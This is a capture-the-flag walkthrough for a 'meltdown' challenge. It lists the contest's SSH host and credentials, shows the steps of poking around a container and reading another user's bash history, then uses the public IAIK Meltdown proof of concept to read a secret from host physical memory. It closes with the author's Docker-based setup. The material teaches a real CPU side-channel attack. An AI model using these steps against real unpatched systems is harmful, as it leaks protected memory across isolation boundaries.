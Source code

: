 
# Hint

```
I'll stop the world and melt with you.

https://www.youtube.com/watch?v=LuN6gs0AJls
https://genius.com/Modern-english-i-melt-with-you-lyrics

host: 208.71.143.18
protocol: ssh
port: 1337
user: rigel
password: dontmeltme
```

# additional hints

These "hints" were added after the contest started.

```
Brute forcing all of memory for meltdown will take longer than the con lasts. Dont' do it.

Don't leave processes running for more than a minute or so.

(and clean up after yourself, please =)
```

# solution

The goal of this challenge is to exploit the meltdown vulnerability
to recover a key stored in another container (actually the root host).
I wasn't subtle about what the vulnerability was (title of the
challenge was "meltdown" afterall), but the question is really
where is the key?

Well, when you're given ssh access to a host, you should -always- go
poking around and see what's there.

```
$ ssh [ipaddress] -l rigel -p [port num]
rigel@nyx.home's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Oct 28 11:44:27 MDT 2019

  System load:  2.0                Processes:              161
  Usage of /:   0.6% of 436.15GB   Users logged in:        0
  Memory usage: 0%                 IP address for eth1:    172.16.0.17
  Swap usage:   0%                 IP address for docker0: 172.17.0.1

  Graph this data and manage this system at:
    https://landscape.canonical.com/

203 packages can be updated.
149 updates are security updates.

Last login: Mon Oct 28 11:44:27 2019 from ec2-3-93-103-205.compute-1.amazonaws.com
rigel@bf1593ce9345:~$ who
rigel@bf1593ce9345:~$ find .
.
rigel@bf1593ce9345:~$ id -a
uid=1001(rigel) gid=1001(rigel) groups=1001(rigel)
rigel@bf1593ce9345:~$ tail /etc/passwd
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
jason:x:1000:1000:Jason Wright,,,:/home/jason:/bin/bash
rigel:x:1001:1001::/home/rigel:/bin/dosh
```

Ok, so there's nothing in our own home directory, but there is another user
called "jason".

```
rigel@bf1593ce9345:~$ find ~jason
/home/jason
/home/jason/.bash_history
rigel@bf1593ce9345:~$ cat ~jason/.bash_history
sudo taskset 1 ./secret > /tmp/testing
rigel@bf1593ce9345:~$ cat /tmp/testing
[+] Physical address of secret: 0x7f9aa69a0
[+] Exit with Ctrl+C if you are done reading the secret
```

Ah hah! It seems "jason" was experimenting with the meltdown vulnerability,
and it seems the secret might be at physical address 0x7f9aa69a0 (note:
the actual address changes each time I boot the host OS, but I ensure that
the `/tmp/testing` file is accurate.

```
rigel@bf1593ce9345:~$ git clone https://github.com/IAIK/meltdown.git
Cloning into 'meltdown'...
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 292 (delta 0), reused 1 (delta 0), pack-reused 288
Receiving objects: 100% (292/292), 30.43 MiB | 1.32 MiB/s, done.
Resolving deltas: 100% (161/161), done.
rigel@bf1593ce9345:~$ cd meltdown
rigel@bf1593ce9345:~/meltdown$ taskset 1 ./physical_reader 0x7f9aa69a0
[+] Physical address       : 0x7f9aa69a0
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff8807f9aa69a0

^C
```

Well, that didn't work (sometimes it does, but usually not). Buried in the README for
meltdown is the text "It just does not work on my computer". Most of the suggestions
are not viable given the level of access you have (i.e. you're not disabling hyperthreads
in the BIOS, etc.). But, one says:

"""
Use a different variant of Meltdown. This can be changed in libkdump/libkdump.c in the line #define MELTDOWN meltdown_nonull. Try for example meltdown instead of meltdown_nonull, which works a lot better on some machines (but not at all on others).
"""

On this particular machine, setting MELTDOWN to meltdown works well.

```
rigel@bf1593ce9345:~/meltdown$ vi libkdump/libkdump.c
rigel@bf1593ce9345:~/meltdown$ make
...
rigel@bf1593ce9345:~/meltdown$ taskset 1 ./physical_reader 0x7f9aa69a0
[+] Physical address       : 0x7f9aa69a0
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff8807f9aa69a0

ctf{yougotyourspectreinmymeltdown}

^C

# common errors

I found several folks trying to use `memdump` from the meltdown archives to dump all of
physical memory. That's effective (maybe), but would take longer than the 3.5 days of saintcon,
and you'd still need to find the key in the dump you retrieved.

Several folks left out the "taskset" part of the command line. It matters: only cpu core 1
has the key forced into the cache. The other 7 cores may or may not (most likely not) have the
physical address in cache.

# setting up the challenge

This is the behind the scenes of how the challenge was configured.

On the host, I ran
a modified version of the meltdown "secret" program. The only real modification was to
read the secret from a file and to fflush() it's output after it printed the physical
address information. This program runs as root on the host (it needs access to
`/proc/$pid/pagemap` to compute the physical address of the key). After printing the
location, it sets in a busy loop constantly reading the memory address (which forces
it to stay resident in the cache).

Users were allowed to `ssh` into the machine... ok, not really, the "rigel" user has
a shell of "dosh" which looks like:

```
#!/bin/bash
sudo /bin/shell2docker
```

(note: /bin/dosh was added to `/etc/shells` too)

And `/bin/shell2docker` looks like:

```
#!/bin/bash
if [ $SUDO_USER ]; then
  username=$SUDO_USER
else
  username=$(whoami)
fi
uid="$(id -u $username)"
gid="$(id -g $username)"
docker run --rm -it \
  -u $uid:$gid -it \
  --cap-drop=all \
  -v /etc/passwd:/etc/passwd:ro \
  -v /etc/group:/etc/group:ro \
  hello
```

This dumps the user into a temporary (--rm) docker container with the priviledges of the
"rigel" user. The docker container name is the descriptively named "hello" container.
It's dockerfile looks like:

```
FROM ubuntu
WORKDIR /home/rigel

RUN apt-get update; apt-get -y install build-essential git-core
RUN apt-get -y install \
    nano \
    screen \
    tmux \
    vim

COPY testing /tmp/testing
RUN chown 1000:1000 /tmp/testing
RUN chmod 644 /tmp/testing
RUN install -d -o 1000 -g 1000 -m 755 /home/jason
COPY bash_history /home/jason/.bash_history
RUN chown 1000:1000 /home/jason/.bash_history
RUN chmod 644 /home/jason/.bash_history
RUN chown 1001:1001 /home/rigel

CMD ["/bin/bash", "-l", "-i"]
```

This container is rebuilt each time the machine boots (after secret is running) to
include the new `/tmp/testing` file.

# author

This challenge and walkthrough was created by Jason L. Wright
[jason@thought.net](mailto:jason@thought.net),
[@risenrigel](https://twitter.com/risenrigel)
